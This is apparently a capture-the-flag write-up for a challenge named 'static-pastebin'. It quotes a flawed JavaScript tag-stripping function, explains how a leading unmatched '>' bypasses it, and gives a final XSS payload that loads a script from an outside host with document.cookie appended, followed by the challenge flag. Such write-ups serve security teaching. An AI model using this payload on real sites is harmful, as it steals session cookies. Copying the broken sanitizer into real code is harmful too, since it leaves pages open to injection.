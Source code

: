 # static-pastebin (374 solves)

Source: [script.js](./script.js)

```js
function clean(input) {
	let brackets = 0;
	let result = "";
	for (let i = 0; i < input.length; i++) {
		const current = input.charAt(i);
		if (current == "<") {
			brackets++;
		}
		if (brackets == 0) {
			result += current;
		}
		if (current == ">") {
			brackets--;
		}
	}
	return result;
}
```

The script appears to clean our input by stripping tags. However, there is a flaw. If we include an unmatched close bracket at the beginning of our exploit, the clean function will allow us to include html tags unchanged. The rest of the exploit is classic XSS in order to steal the admin cookies.

Final Exploit:

```html
><img src="" onerror="a=document.createElement('script'),a.setAttribute('src','https://example.com/x.js?cookie='+document.cookie),document.body.appendChild(a)" />
```

Flag: flag{54n1t1z4t10n_k1nd4_h4rd}
